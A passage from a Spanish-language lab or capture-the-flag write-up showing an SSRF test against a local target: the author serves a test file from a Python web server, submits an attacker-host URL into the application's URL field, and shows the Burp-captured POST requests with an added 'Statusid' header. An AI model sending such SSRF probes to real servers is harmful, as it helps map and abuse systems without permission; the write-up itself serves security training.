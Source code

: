 
Vamos a probar a realizar algun `SSRF` por ejemplo, vamos a poner nuestra `IP` junto con un archivo que crearemos, para ver si nos coge desde nuestro servidor de `python3` dicho archivo o hace el intento.

> test.txt

```
Fichero de prueba
```

Abriremos dicho servidor de `python3`.

```shell
python3 -m http.server 80
```

Ahora en el campo de la `URL` vamos a poner lo siguiente:

```
http://<IP_ATTACKER>/test.txt
```

Si le damos a enviar teniendo el `BurpSuite` a la escucha para capturar la peticion, veremos lo siguiente:

```
POST /status.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/status.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http%3A%2F%2F192.168.177.129%2Ftest.txt
```

En esta parte tendremos que volver añadirle el `Statusid: 1` para que funcione y nos vuleva a redirigir a la pagina en la que estamos quedando asi:

```
POST /status.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://172.17.0.2
Statusid: 1
Connection: keep-alive
Referer: http://172.17.0.2/status.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http%3A%2F%2F192.168.177.129%2Ftest.txt
```
